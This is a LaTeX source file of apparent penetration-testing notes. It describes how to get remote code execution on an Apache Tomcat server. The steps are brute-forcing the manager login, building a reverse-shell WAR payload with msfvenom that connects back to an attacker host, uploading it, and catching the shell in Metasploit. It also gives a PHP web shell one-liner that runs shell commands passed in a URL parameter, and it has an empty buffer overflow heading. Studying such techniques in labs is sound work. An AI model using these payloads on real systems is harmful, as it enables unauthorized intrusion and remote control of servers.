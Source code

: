 \documentclass{article}[12pt]
\begin{document}
\paragraph{Tomcat Java servlet upload} In this example I describe how remote code execution is done basing on servlet upload on tomcat server.
Lets consider tomcat server works on 10.10.10.10:8080 port (we know this from nmap). We also know from nmap that operating system
is Windows x65. Now we enumerate tomcat users using
\texttt{auxiliary/scanner/http/tomcat\_mgr\_login}. Lets assume enumeration gives: \texttt{tomcat:tomcat}.
Once the tomcat user is logged in go to place when WAR files are uploaded. Make payload using \texttt{msfvenom -p windows/x64/shell/reverse\_tcp lhost\=192.168.1.4 -f war>tom.war} (\texttt{-f war} stands for format of input file and \texttt{lhost} is our host).
If war file has been compiled you can check what is inside by: \texttt{jar tvf <file-name>.war}. There is file with .jsp extension and this file will execute shell and transmit it to our listener.
Now upload .war file on the server and run in the msfconsole \texttt{multi/handler}. Multihandling listener will run in terminal and will be wating for connections coming from remote machine.
Lat step is to go to \texttt{http://10.10.10.10:8080/...../<war-file-name>/<jsp-file-name>.jsp}. Finally you should see remote terminal and execute commands remotely.

\subsection{Buffer Overflow}


\subsection{PHP script injection}
Some websites allows users to upload content other than text e.g photos, movies, games and many other odd file formats. While it is not properly controlles what type is being saved user is able to embeed PHP code which will be executed every time while trying to "see" uploaded content.
The vulnerability here is the remote shell execution. PHP code which executes shell is simple : \texttt{echo shell\_exec(<shell script>);}, where shell script is the one executed by shell on local server. In order to run the script you should find possibility to embeed the following script on the html page: \texttt{<?php echo shell\_exec(\$\_GET['variable']); ?>}. In this scenario every time you open the page you added  the code to
you will be able to send shell commands remotely by passing them as GET variable via URI.
\end{document}
